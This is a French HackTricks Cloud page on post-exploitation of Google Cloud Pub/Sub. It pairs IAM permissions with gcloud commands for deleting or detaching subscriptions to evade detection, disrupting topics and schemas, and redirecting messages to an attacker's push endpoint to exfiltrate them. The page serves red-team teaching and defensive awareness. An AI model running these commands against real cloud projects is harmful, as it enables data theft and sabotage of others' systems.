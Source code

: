 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Pour plus d'informations sur Pub/Sub, consultez la page suivante :

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publiez un message dans un sujet, utile pour **envoyer des données inattendues** et déclencher des fonctionnalités inattendues ou exploiter des vulnérabilités :
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Utile pour empêcher une souscription de recevoir des messages, peut-être pour éviter la détection.\
Il est possible de supprimer un sujet même avec des souscriptions qui y sont attachées.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utilisez cette autorisation pour mettre à jour certains paramètres du sujet afin de le perturber, comme `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Donnez-vous la permission d'effectuer l'une des attaques précédentes.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenez tous les messages dans un serveur web :

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Créez une souscription et utilisez-la pour **tirer des messages** :
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Supprimer une souscription** pourrait être utile pour perturber un système de traitement de journaux ou quelque chose de similaire :
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Utilisez cette autorisation pour mettre à jour certains paramètres afin que les messages soient stockés à un endroit auquel vous pouvez accéder (URL, table Big Query, Bucket) ou simplement pour le perturber.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Donnez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attaquez un schéma à un sujet afin que les messages ne le respectent pas et que le sujet soit perturbé.\
S'il n'y a pas de schémas, vous devrez peut-être en créer un.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Cela peut sembler comme la suppression d'un schéma, vous pourrez envoyer des messages qui ne respectent pas le schéma. Cependant, comme le schéma sera supprimé, aucun message n'entrera réellement dans le sujet. Donc, c'est **INUTILE** :
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Donnez-vous les autorisations nécessaires pour effectuer l'une des attaques précédemment commentées.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Cela créera un instantané de tous les messages non ACK et les remettra à l'abonnement. Pas très utile pour un attaquant mais voici :
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
